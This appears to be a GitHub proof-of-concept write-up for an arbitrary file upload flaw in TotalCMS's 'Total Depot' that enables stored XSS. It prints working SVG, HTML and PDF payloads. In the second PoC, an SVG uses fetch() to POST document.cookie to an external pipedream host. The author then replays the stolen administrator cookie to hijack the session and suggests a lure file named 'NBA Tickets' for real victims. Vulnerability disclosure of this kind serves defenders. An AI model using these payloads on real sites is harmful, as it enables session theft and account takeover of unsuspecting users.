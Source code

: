 # TotalCMS Arbitrary File Upload - XSS and steal cookies

## Author: (Sergio)

**Description:** TotalCMS is affected by Arbitrary File Upload - XSS vulnerability which allows Cross-Site Scriting (XSS) and also stealing session cookies

**Attack Vectors:** A vulnerability in "Total Depot" file upload sanitation allows you to upload a PDF / SVG /HTML file with hidden alert Cross-Site scripting (XSS) and steal the user cookies.

---

I am going to do 2 PoCS:
### - POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files

### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.


We start with the first PoC:

### POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files


When logging into the admin panel (https://www.totalcms.co/demo/total-cms/admin/), we will go to the "Total Depot" off the Administration Site and we upload the PDF/ SVG/ and HTML files with the hidden XSS.


There is the payloads:

### XSS PDF Payload:

It is an XSS payload generated with the JS2PDFInjector tool and a js payload that contains the following content:

```js
app.alert("XSS");
```

### SVG Payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.location);
   </script>
</svg>
```

### HTML Payload:

```js
<html>
	<script>
		alert(document.cookie);
	</script>
</html>
```


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/59567372-3336-4efd-aa24-2293ee2018c3)



![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/bfbddc70-9021-4fdb-9ed5-63eed29f25ce)


Once uploaded, if we click on the link we can see the path where they are stored:

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eedf4cdb-6401-4e64-8cab-479f9cedfcec)


PATH of the files:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/fc975779-4e50-4408-8947-42927049faf1)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/9dec0ba5-17e9-4ddb-b917-2657b1ee21ed)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8a1be3fe-bbb8-47e3-8d4f-5933df2af82a)



And this is the result with the Cross-Site Scripting (XSS) of the 3 types of files and with the user's cookies:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f5ef6c07-c3ee-44fd-b999-266a654d8d29)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ce05700f-1dda-4275-a40a-1944bef4bb36)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8e84bc6e-e5f0-43b5-9f63-b93a41167baa)



We continue with the second PoC:


### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.

We are going to pretend that we are a cybercriminal and we are going to steal the user's session cookies and they will be sent to the server.

In this case I have uploaded a file as PoC but in a real case, we can upload a file with an interesting name "NBA Tickets" and publish it, so that the victim user sends me the cookies when executing the file, without realizing it. of it.

<br>

Firs of all, we perform a test to see if we have communication with an external server.


There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script xlink:href="https://enbjn0l9vbowi.x.pipedream.net/" />     
<script>       
//<![CDATA[         
alert("XSS");       
]]>     
</script>   
</svg>
```

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eaa232df-c43d-48a7-a75a-653b86f55f9f)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ffd7cced-e6a5-4034-ace5-8e2729523f85)


As we see in the pipedream Request, we have obtained the request correctly.


<br>
We modify the payload to steal cookies and send them to the pipedream Request, so that we can impersonate the user.



There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script>
  fetch('https://enbjn0l9vbowi.x.pipedream.net/', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>   
</svg>
```


We execute it:

<br>

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f4ac2d48-f957-4c5d-a173-053ba3097aec)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/a6dae6e1-d139-4aa7-8d02-f62fea31232e)



As we see in the image, we have correctly obtained the user's session cookies.


Now we are going to impersonate the user. To test it, we open a session to TotalCMS/admin in another browser and open the "Cookie Editor" addon.


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/00cd865a-e329-496e-ac26-24970fe4b617)


We modify the session cookie to the one obtained in pipestream and save.


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/2d9a2f2b-7c82-41a1-b7bb-0e778bf33b9d)



We reloaded the website and we have impersonated the administrator user.

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/7eaf4ac6-3725-4351-a4d6-9b2a92a93922)






</br>

### Additional Information:
https://www.totalcms.co/

https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
